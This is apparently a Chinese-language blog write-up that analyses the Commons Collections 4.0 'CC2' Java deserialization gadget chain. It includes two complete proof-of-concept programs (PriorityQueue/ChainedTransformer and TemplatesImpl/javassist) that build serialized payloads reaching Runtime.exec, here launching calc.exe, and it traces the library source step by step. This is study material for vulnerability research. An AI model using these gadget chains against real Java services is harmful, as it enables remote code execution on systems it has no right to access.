Apache-Commons-Collections 2
目录
cc链2 主要是PriorityQueue和commons-collections-4.0 组件 造成的Gadget。
PriorityQueue 是一个用于大小排序的类，它会将传入的数值进行大小排序。
版本
CommonsCollections 4.0 需要有 javasist 依赖 JDK版本暂无限制
环境
pom.xml
<dependency>
<groupId>org.apache.commons</groupId>
<artifactId>commons-collections4</artifactId>
<version>4.0</version>
</dependency>
利用链1
PriorityQueue +ChianedTransfomer+反射修改属性
ObjectInputStream.readObject()
PriorityQueue.readObject()
PriorityQueue.heapify()
PriorityQueue.siftDown()
PriorityQueue.siftDownUsingComparator();
TransformingComparator.compare() //TransformingComparator cc4.0后才能实现了序列化接口
InvokerTransformer.transform()
Method.invoke()
Runtime.exec()
POC
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
public class Main {
public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String.class }, new Object[]{"calc.exe"})});
TransformingComparator comparator = new TransformingComparator(chain);
PriorityQueue queue = new PriorityQueue(1);
queue.add(1);
queue.add(2);
Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
field.setAccessible(true);
field.set(queue,comparator);
try{
ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2"));
outputStream.writeObject(queue);
outputStream.close();
ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2"));
inputStream.readObject();
}catch(Exception e){
e.printStackTrace();
}
}
}
直接跟着POC调试。

我们根据利用链跟进到PriorityQueue.readObject
这里先循环调用readObject将反序列化结果放入queue数组，然后可以发现这里最后调用了一个heapify()方法，我们跟进。

这里的意思对我们来说便是，如果size大于1便调用siftDown方法处理queue数组。跟进siftDown

会发现此处会判断comparator是否存在，若存在则调用siftDownUsingComparator。链中是需要跟进siftDownUsingComparator方法。

siftDownUsingComparator里有个comparator.compare(x, (E) c),其中这个x是我们可控的，就是我们往queue中put的值。跟进compare方法

可以发现是调用了当前transformer指定的类的transform方法，而当前transform按照POC中来看便是ChainedTransformer chain，于是此处便会调用ChainedTransformer的transform方法，我们在ChainedTransformer中写入的命令就会被执行了。
这便是这个链的大体状况，但是这个POC中仍然有一些细节需要推敲。
POC分析 1
TransformingComparator comparator = new TransformingComparator(chain);
PriorityQueue queue = new PriorityQueue(1);
queue.add(1);
queue.add(2);
这里向queue中add了两个元素，这里add了两个元素的意义是这样的：

在heapify会判断queue中的对象数量是否大于1，只有大于1才会执行siftDown方法。
POC分析 2
TransformingComparator comparator = new TransformingComparator(chain);
PriorityQueue queue = new PriorityQueue(1);
queue.add(1);
queue.add(2);
Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
field.setAccessible(true);
field.set(queue,comparator);

我们可以发现在POC此处在实例化PriorityQueue时并没有传入comparotor，而是在后面使用反射给comparator变量赋值。我们跟进queue.add便可一览究竟

add在实际上是调用了offer方法，跟进offer方法

可以发现这个offer方法也调用了siftUp这个方法

跟进后自然是来到此处，如果comparator存在它便会走上面的分支，调用transformer方法，走下面便是进行赋值操作。
假如此时comparator存在走了上面的分支，

便会在此行产生报错，这里的逻辑是将queue数组中的两个值进行transform处理然后进行大小比较以排序，但是这里两个transform方法返回的结果均为ProccessImpl对象，不能被compare方法调用进行大小比较，所以会产生报错。导致我们后面的序列化操作不能顺利执行，无法产生payload。

利用链2
链2用到了PriorityQueue +TemplatesImpl +InvokerTransformer和javassist技术。 javassist 可以用来动态修改java字节码，相关细节这里就不细说了，我的博客和网上均有大量文章。
ObjectInputStream.readObject()
PriorityQueue.readObject()
PriorityQueue.heapify()
PriorityQueue.siftDown()
PriorityQueue.siftDownUsingComparator()
TransformingComparator.compare()
InvokerTransformer.transform()
TemplatesImpl.newTransformer()
TemplatesImpl.getTransletInstance()
EvilClass.newInstance()
关于TemplatesImpl ，它也是7u21链中不可或缺的一个环节，它配合javassist起到任意类生成的作用，在该条链中可以再配合invokerTransformer来达到命令执行的目的。
POC
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
public class Main {
public static void main(String[] args) throws Exception{
Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
constructor.setAccessible(true);
InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");
TransformingComparator Tcomparator = new TransformingComparator(transformer);
PriorityQueue queue = new PriorityQueue(1);
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
//cc.writeFile();
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setFieldValue(templates, "_bytecodes", targetByteCodes);
setFieldValue(templates, "_name", "blckder02");
setFieldValue(templates, "_class", null);
Object[] queue_array = new Object[]{templates,1};
Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
queue_field.setAccessible(true);
queue_field.set(queue,queue_array);
Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
size.setAccessible(true);
size.set(queue,2);
Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
comparator_field.setAccessible(true);
comparator_field.set(queue,Tcomparator);
try{
ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2.bin"));
outputStream.writeObject(queue);
outputStream.close();
ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2.bin"));
inputStream.readObject();
}catch(Exception e){
e.printStackTrace();
}
}
public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
final Field field = getField(obj.getClass(), fieldName);
field.set(obj, value);
}
public static Field getField(final Class<?> clazz, final String fieldName) {
Field field = null;
try {
field = clazz.getDeclaredField(fieldName);
field.setAccessible(true);
}
catch (NoSuchFieldException ex) {
if (clazz.getSuperclass() != null)
field = getField(clazz.getSuperclass(), fieldName);
}
return field;
}
}
TemplatesImpl 类生成
我们先来看一看TemplatesImpl 是如何进行类生成的。
首先TemplatesImpl类中有个方法defineTransletClasses，它的主要代码如下
private byte[][] _bytecodes = (byte[][])null;
private void defineTransletClasses() throws TransformerConfigurationException {
if (this._bytecodes == null) {
.....
} else {
TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)AccessController.doPrivileged(new PrivilegedAction() {
public Object run() {
return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader());
}
});
try {
int classCount = this._bytecodes.length;
this._class = new Class[classCount];
for(int i = 0; i < classCount; ++i) {
this._class[i] = loader.defineClass(this._bytecodes[i]); \\将_bytecodes中的所有字节通过defineClass转化为一个类
Class superClass = this._class[i].getSuperclass();
if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
this._transletIndex = i;
} else {
this._auxClasses.put(this._class[i].getName(), this._class[i]);
}
}
}
也就是说通过这个方法可以将_bytecodes数组中的字节还原成一个类，存储到_class变量中。接下来如果我们能找到调用defineTransletClasses方法并执行了_class[].newinstance() 这样的的代码的方法，就能实例化从字节得到的类了，从而就能执行类中的静态代码块和构造函数了！ 所以接下来我们需要去寻找这种方法。 通过搜索defineTransletClasses，我们找到了有如下三个方法调用了defineTransletClasses方法：
getTransletInstance
getTransletIndex
getTransletClasses
其中，getTransletInstance方法是唯一符合“调用了defineTransletClasses且有_class[].newinstance()”的方法，其代码如下
private Translet getTransletInstance() throws TransformerConfigurationException {
ErrorMsg err;
try {
if (this._name == null) {
return null;
} else {
if (this._class == null) {
this.defineTransletClasses();
}
AbstractTranslet translet = (AbstractTranslet)this._class[this._transletIndex].newInstance(); \\here,注意此处生成的类对象应该是AbstractTranslet或其子类
translet.postInitialization();
translet.setTemplates(this);
translet.setServicesMechnism(this._useServicesMechanism);
if (this._auxClasses != null) {
translet.setAuxiliaryClasses(this._auxClasses);
}
return translet;
}
那么，getTransletInstance是一个private方法，我们不能直接调用它，在那里能去调用它呢？答案是newTransformer方法
public synchronized Transformer newTransformer() throws TransformerConfigurationException {
TransformerImpl transformer = new TransformerImpl(this.getTransletInstance(), this._outputProperties, this._indentNumber, this._tfactory); \\here
········
}
也就是说我们可以通过javassist动态控制_bytecodes属性的值，然后通过InvokerTransfomer调用TemplatesImpl.newTransfomer来把我们通过javassist得到的字节码实例化，在实例化的时候调用其构造函数。
POC分析
Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
constructor.setAccessible(true);
InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");
TransformingComparator Tcomparator = new TransformingComparator(transformer);
这里是先获取InvokerTransformer的构造方法，然后向构造方法传入newTransformer来实例化一个InvokerTransformer方法。
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
//cc.writeFile();
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setFieldValue(templates, "_bytecodes", targetByteCodes);
setFieldValue(templates, "_name", "blckder02");
setFieldValue(templates, "_class", null);
这里是通过javassist动态实现了一个构造函数为执行计算器的类，将其转化为字节码保存，然后在实例化TemplatesImpl时传入其_bytecodes变量，这里还必须为_name赋值，_class我测试的时候也不用赋值，但是加上最好？我没有细跟。
Object[] queue_array = new Object[]{templates,1};
Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
queue_field.setAccessible(true);
queue_field.set(queue,queue_array);
Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
size.setAccessible(true);
size.set(queue,2);
Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
comparator_field.setAccessible(true);
comparator_field.set(queue,Tcomparator);
然后通过反射向queue数组赋值，一个值为刚刚生成的TemplatesImpl对象，另一个值随意，总之这里得传入2个以上的值。 然后通过反射向size赋值，再然后通过反射向comparator赋值。 赋值完成后进行序列化操作。